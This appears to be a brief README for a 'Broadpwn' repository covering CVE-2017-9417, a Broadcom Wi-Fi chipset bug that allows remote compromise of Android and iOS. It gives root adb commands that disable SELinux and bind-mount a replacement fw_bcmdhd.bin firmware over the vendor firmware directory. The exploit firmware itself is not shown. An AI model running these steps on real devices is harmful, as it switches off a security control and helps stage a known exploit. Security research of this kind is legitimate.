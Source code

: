 # Broadpwn
Broadpwn bug (CVE-2017-9417)

Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

$ adb shell
# setenforce 0
# cp fw_bcmdhd.bin /data/local/tmp/firmware/
# chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
# mount -o bind /data/local/tmp/firmware /vendor/firmware
# stop
# start

